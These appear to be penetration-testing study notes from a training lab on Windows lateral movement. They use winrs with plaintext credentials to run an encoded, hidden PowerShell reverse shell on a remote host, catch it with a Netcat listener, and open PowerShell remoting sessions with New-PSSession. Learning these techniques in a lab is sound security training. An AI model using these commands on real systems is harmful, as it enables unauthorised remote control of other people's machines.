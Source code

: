 The winrs utility can be invoked by specifying the target host through the _-r:_ argument and the username and password with _-u:_ and _-p_, respectively
+ As a final argument, we want to specify the commands to be executed on the remote host
+ For example, we want to run the hostname and whoami commands to prove that they are running on the remote target
+ Since winrs only works for domain users, we'll execute the whole command once we've logged in as _jeff_ on CLIENT74 and provide _jen's_ credentials as command arguments
+ Usage
``` PowerShell
winrs -r:<HOSTNAME> -u:<USER> -p:<PASSWORD>  "<COMMAND>"
```
+ Example
``` Powershell
winrs -r:files04 -u:jen -p:Nexus123!  "cmd /c hostname & whoami"
```
+ The output confirms that we have indeed executed the commands remotely on FILES04
+ **NOTE**: For WinRS to work, the domain user needs to be part of the **Administrators** or **Remote Management Users** group on the target host

To convert this technique into a full lateral movement scenario, we just need to replace the previous commands with the base64 encoded reverse-shell we wrote earlier:
``` PowerShell
C:\Users\jeff>winrs -r:files04 -u:jen -p:Nexus123!  "powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5AD...
HUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA"
```

Once we run the above command after having set up a Netcat listener, we are welcomed with a reverse-shell from FILE04:
``` Shell
kali@kali:~$ nc -lnvp 443
listening on [any] 443 ...
connect to [192.168.118.2] from (UNKNOWN) [192.168.50.73] 65107
PS C:\Users\jen> hostname
FILES04
PS C:\Users\jen> whoami
corp\jen
```

PowerShell also has WinRM built-in capabilities called _PowerShell remoting_, which can be invoked via the _`New-PSSession`_ cmdlet by providing the IP of the target host along with the credentials in a credential object format similar to what we did previously:
``` PowerShell
$username = '<USER>';
$password = '<PASSWORD>';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
New-PSSession -ComputerName 192.168.50.73 -Credential $credential
```
+ Example:
```
PS C:\Users\jeff> $username = 'jen';
PS C:\Users\jeff> $password = 'Nexus123!';
PS C:\Users\jeff> $secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
PS C:\Users\jeff> $credential = New-Object System.Management.Automation.PSCredential $username, $secureString;

PS C:\Users\jeff> New-PSSession -ComputerName 192.168.50.73 -Credential $credential

 Id Name            ComputerName    ComputerType    State         ConfigurationName     Availability
 -- ----            ------------    ------------    -----         -----------------     ------------
  1 WinRM1          192.168.50.73   RemoteMachine   Opened        Microsoft.PowerShell     Available
```


[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname